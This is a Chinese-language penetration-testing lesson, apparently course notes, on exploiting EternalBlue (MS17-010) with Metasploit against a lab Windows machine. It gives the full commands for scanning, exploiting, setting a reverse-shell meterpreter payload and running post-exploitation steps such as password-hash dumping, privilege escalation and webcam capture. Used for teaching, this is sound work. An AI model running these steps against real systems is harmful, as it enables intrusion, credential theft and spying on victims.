




# 网络安全入门：P33：MSF利用流程拿下对方电脑 🖥️

在本节课中，我们将学习如何使用Metasploit Framework（MSF）来利用一个经典漏洞，完成从探测到控制目标计算机的完整流程。我们将以永恒之蓝（MS17-010）漏洞为例，演示MSF的基本操作。

## 概述

上一节我们介绍了MSF的基本渗透流程。本节中，我们来看看如何具体利用一个已知漏洞来拿下对方的电脑。我们将使用Kali Linux中自带的MSF工具，通过永恒之蓝漏洞模块，完成对一台存在漏洞的Windows靶机的攻击和控制。

## 准备工作

以下是开始操作前需要准备的软件和环境。

*   **Kali Linux虚拟机**：MSF已预装在Kali系统中。
*   **存在漏洞的靶机**：一台未修复MS17-010漏洞的Windows系统（例如 Windows 7/Server 2008）。

> 注：相关软件和靶机镜像已提供在课程资料中。

## 攻击流程详解

### 第一步：启动MSF控制台



首先，我们需要进入MSF的控制台界面。在Kali Linux的终端中，输入以下命令：

```bash
msfconsole
```

等待片刻，当命令行提示符变为 `msf6 >` 时，表示已成功进入MSF环境。

### 第二步：搜索并选择探测模块

在发起攻击前，最好先确认目标是否存在该漏洞。MSF提供了辅助模块用于漏洞探测。

我们使用 `search` 命令来查找与MS17-010相关的模块：

```bash
search ms17-010
```

命令执行后，会列出多个模块。通常包含两类：
*   `auxiliary/scanner/...`：辅助（探测）模块。
*   `exploit/windows/...`：攻击（利用）模块。



我们首先使用辅助模块进行探测。输入以下命令来使用探测模块：

```bash
use auxiliary/scanner/smb/smb_ms17_010
```

### 第三步：配置探测模块参数

使用模块后，需要查看并设置必要的参数。输入 `show options` 或 `options` 命令：

```bash
show options
```

在列出的参数中，`RHOSTS` 是必须设置的目标地址。我们使用 `set` 命令进行配置（假设靶机IP为 192.168.110.25）：

```bash
set RHOSTS 192.168.110.25
```

如果需要扫描整个网段，可以将 `RHOSTS` 设置为 `192.168.110.0/24`，并适当增加线程数 `THREADS`（例如设置为10）。

参数配置完成后，运行探测模块：

```bash
run
```

如果返回信息提示目标“可能存在MS17-010漏洞”，则说明可以尝试攻击。

### 第四步：选择并配置攻击模块

确认漏洞存在后，我们切换到攻击模块。使用以下命令（具体模块名根据搜索列表确定）：

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

再次使用 `show options` 查看需要配置的参数。攻击模块通常需要设置两个关键参数：
1.  `RHOSTS`：目标地址（同上，设置为靶机IP）。
2.  `PAYLOAD`：攻击载荷，即成功利用漏洞后希望在目标机器上执行的代码。

我们设置目标地址：

```bash
set RHOSTS 192.168.110.25
```

然后设置一个常用的反向Shell载荷，这会让目标机器主动连接回我们的监听器。同时需要设置我们自己的IP（`LHOST`）和监听端口（`LPORT`）：

```bash
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.110.1   # 这里替换为Kali虚拟机的IP地址
set LPORT 4444
```

### 第五步：发起攻击

所有参数设置无误后，执行攻击命令：

```bash
exploit
```

或者

```bash
run
```

如果攻击成功，命令行提示符会变为 `meterpreter >`，这表示我们已经获得了目标系统的一个Meterpreter会话，拥有了控制权。

### 第六步：后渗透操作（Meterpreter基础）



进入Meterpreter会话后，可以执行很多操作。输入 `?` 或 `help` 可以查看所有可用命令。

以下是部分核心命令分类介绍：

*   **系统信息与交互**：
    *   `sysinfo`：查看目标系统信息。
    *   `shell`：进入目标系统的命令行shell。

*   **文件系统操作**：
    *   `pwd` / `cd`：查看/切换目录。
    *   `ls` / `dir`：列出文件。
    *   `download <文件路径>`：下载文件到攻击机。
    *   `upload <本地文件路径> <目标路径>`：上传文件到靶机。

*   **网络与进程操作**：
    *   `ipconfig` / `ifconfig`：查看网络配置。
    *   `netstat`：查看网络连接。
    *   `ps`：列出进程。
    *   `migrate <PID>`：将Meterpreter会话迁移到其他进程。

*   **权限提升与信息收集**：
    *   `getsystem`：尝试提权至SYSTEM权限。
    *   `hashdump`：导出用户密码哈希值。

*   **桌面交互**（需要相应扩展）：
    *   `screenshot`：截取屏幕。
    *   `webcam_snap`：使用摄像头拍照。

操作完成后，可以使用 `background` 命令将当前会话置于后台，返回到MSF提示符下。

## 关于永恒之蓝漏洞的补充说明

永恒之蓝（MS17-010）是一个于2017年被公开的严重Windows SMB协议漏洞。虽然公开已久，且公网服务器和云主机大多已修复，但在一些企业内部网络（内网）中，未及时更新的老旧Windows系统（如Windows 7、Server 2008）可能仍然存在此漏洞。因此，在内网渗透测试中，它依然是一个值得关注的攻击点。

## 总结

本节课中，我们一起学习了使用Metasploit Framework进行渗透测试的完整流程：
1.  使用 `msfconsole` 启动工具。
2.  使用 `search` 查找并 `use` 选择模块。
3.  使用 `show options` 和 `set` 配置模块参数。
4.  使用 `run` 或 `exploit` 执行模块。
5.  成功利用后，在Meterpreter会话中进行后渗透操作。



我们以永恒之蓝漏洞为例，实践了从漏洞探测到获取系统控制权的全过程。请务必在授权和合法的环境中进行练习，切勿用于非法攻击。